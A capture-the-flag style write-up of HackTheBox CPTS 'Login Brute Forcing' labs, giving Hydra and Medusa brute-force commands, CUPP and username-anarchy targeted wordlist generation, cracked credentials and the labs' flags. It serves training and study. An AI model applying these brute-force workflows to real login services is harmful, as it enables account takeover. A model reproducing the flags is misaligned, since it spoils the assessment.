 ```yaml
---
title: CPTS labs - 15 Login Brute Forcing
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - certification
  - CPTS
  - labs
---
```

# CPTS labs - 15 Login Brute Forcing

## [Login Brute Forcing](https://academy.hackthebox.com/module/details/57)


### Brute Force Attacks

**After successfully brute-forcing the PIN, what is the full flag the script returns?**

Run the provided script. Also you can do it from Burpsuite.

Results: HTB{Brut3_F0rc3_1s_P0w3rfu1}


**After successfully brute-forcing the target using the script, what is the full flag the script returns?**

Run the provided script. Also you can do it from Burpsuite.

HTB{Brut3_F0rc3_M4st3r}


### Hydra

**Basic HTTP Authentication- After successfully brute-forcing, and then logging into the target, what is the full flag you find?**

```
hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 94.237.63.111 -s 32110 http-get / 
```

Results: HTB{th1s_1s_4_f4k3_fl4g}

**Login Forms- After successfully brute-forcing, and then logging into the target, what is the full flag you find?**

```bash
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -f 94.237.63.111 -s 47017 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
# Output: [47017][http-post-form] host: 94.237.63.111   login: admin   password: zxcvbnm

```

Results: HTB{W3b_L0gin_Brut3F0rc3}


### Medusa

What was the password for the ftpuser?

```
medusa -u sshuser -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt -M ssh -h 83.136.253.44 -n 45938 -t 3
# Output: 2025-01-20 19:57:42 ACCOUNT FOUND: [ssh] Host: 83.136.253.44 User: sshuser Password: 1q2w3e4r5t [SUCCESS]

# Connect via ssh
ssh sshuser@83.136.253.44 -p 45938

# Reconnaissance
nmap localhost

# From the local target machine:
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
# Output: ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: qqww1122 [SUCCESS]

# From the target machine connect to FTP
ftp ftpuser@$ip
# Enter password: qqww1122
dir 
get flag.txt
quit

cat flag.txt
```

Results: qqww1122

**After successfully brute-forcing the ssh session, and then logging into the ftp server on the target, what is the full flag found within flag.txt?**

Results: HTB{SSH_and_FTP_Bruteforce_Success}


### Custom Wordlists

**After successfully brute-forcing, and then logging into the target, what is the full flag you find?**


```
# Generate usernames
./username-anarchy Jane Smith > jane_smith_usernames.txt

# Generate passwords
cupp -i 
```

```
Output
> First Name: Jane
> Surname: Smith
> Nickname: Janey
> Birthdate (DDMMYYYY): 11121990


> Partners) name: Jim
> Partners) nickname: Jimbo
> Partners) birthdate (DDMMYYYY): 12121990


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: Spot
> Company name: AHI


> Do you want to add some key words about the victim? Y/[N]: y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: hacker,juice,black], spaces will be removed: hacker,blue
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to jane.txt, counting 52058 words.
[+] Now load your pistolero with jane.txt and shoot! Good luck!
```

```
# Filter passwords
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > dictionary-filtered.txt

# Launch hydra attack:
hydra -L jane_smith_usernames.txt -P dictionary-filtered.txt 94.237.50.7 -s 32234 -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"

# Output: [32234][http-post-form] host: 94.237.50.7   login: jane   password: 3n4J!!

# Login into the target
```

Results: HTB{W3b_L0gin_Brut3F0rc3_Cu5t0m}


### Skills Assessment Part 1

The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

**What is the password for the basic auth login?**

```bash
# We have the provided lists: usernames.txt and passwords.txt
hydra -L usernames.txt -P passwords.txt -f 83.136.253.44 -s 44641 http-get 

# Output: [44641][http-get] host: 83.136.253.44   login: admin   password: Admin123

```


Results: Admin123

**After successfully brute forcing the login, what is the username you have been given for the next part of the skills assessment?**

```bash
# Access the site with user and password and the name is retrieved
```

Results: satwossh



### Skills Assessment Part 2

This is the second part of the skills assessment. `YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

What is the username of the ftp user you find via brute-forcing?

```
sudo nmap -sC -sV -Pn 83.136.253.73 -p 53002  
# output: 53002/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)

# Now we brute force ssh service with hydra
hydra -l satwossh -P passwords.txt -f 83.136.253.73  -s 53002  ssh
# Output: [53002][ssh] host: 83.136.253.73   login: satwossh   password: password1

# We access the service with creds: satwossh:password1
ssh satwossh@83.136.253.73 -p 53002 

# We see the content of our home folder and read the IncidentReport.txt:
ls
cat IncidentReport.txt
# We obtain an interesting name: "Thomas Smith". 

# We enumerate open services: 
nmap localhost
# Output: open ports: 21 and 22.

# We will use username-anarchy to generate a list of potential users:
echo "Thomas Smith" > realnames.txt
./username-anarchy -i realnames.txt
# we save the output under ~/namelist.txt

# We launch hydra
hydra -L namelist.txt -P passwords.txt -f 127.0.0.1 ftp
# output: [21][ftp] host: 127.0.0.1   login: thomas   password: chocolate!

# We access ftp
ftp thomas@127.0.0.1
# enter password when prompted: chocolate!

# Now, we browse and extract the flag.txt
dir 
get flag.txt
quit
cat flag.txt
```

Results: HTB{brut3f0rc1ng_succ3ssful}

What is the flag contained within flag.txt

